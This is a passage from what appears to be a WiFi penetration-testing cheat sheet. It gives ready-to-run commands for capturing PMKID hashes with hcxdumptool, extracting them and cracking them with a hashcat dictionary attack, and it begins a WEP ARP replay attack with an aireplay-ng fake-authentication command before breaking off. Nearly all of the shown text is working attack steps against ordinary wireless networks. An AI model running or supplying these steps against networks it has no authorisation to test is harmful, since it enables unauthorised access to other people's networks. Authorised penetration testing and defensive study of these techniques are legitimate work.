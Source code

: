 Crack the WPA/WPA2 authentication without deauthenticating the clients.

Install required set of tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes:

```fundamental
hcxdumptool -i wlan0mon --enable_status=1 -o hcxdumptool_results.cap
```

Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool -i wlan0mon --filterlist_ap=filter.txt --filtermode=2 --enable_status=1 -o hcxdumptool_results.cap
```

Sometimes it can take hours to capture a PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start a dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status --optimized-kernel-enable --outfile hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

### ARP Request Replay Attack

If target's WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do a fake authentication to a specified WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --fakeauth 6000 -o 1 -q 10
```

If MAC address filtering is active, do a fake authentication to a specified WiFi network with an existing MAC address:
